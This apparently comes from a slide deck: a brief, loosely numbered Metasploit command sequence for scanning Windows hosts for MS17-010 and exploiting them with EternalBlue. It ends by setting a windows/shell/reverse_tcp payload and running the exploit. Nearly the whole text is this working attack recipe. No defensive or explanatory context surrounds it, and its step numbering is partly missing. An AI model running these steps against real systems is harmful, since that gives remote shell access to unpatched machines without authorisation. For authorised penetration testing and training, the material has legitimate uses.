

# Manage It In Windows
sudo msfconsole

search Blue

use auxiliary/scanner/smb/smb_ms17_010

Set RHOSTS <HOST>

Use exploit/windows/smb/ms17_010_eternalblue

Info

set RHOST <HOST>

show payloads

You can set payload by
	 set payload windows/shell/reverse_tcp
10. exploit or run

11 . show options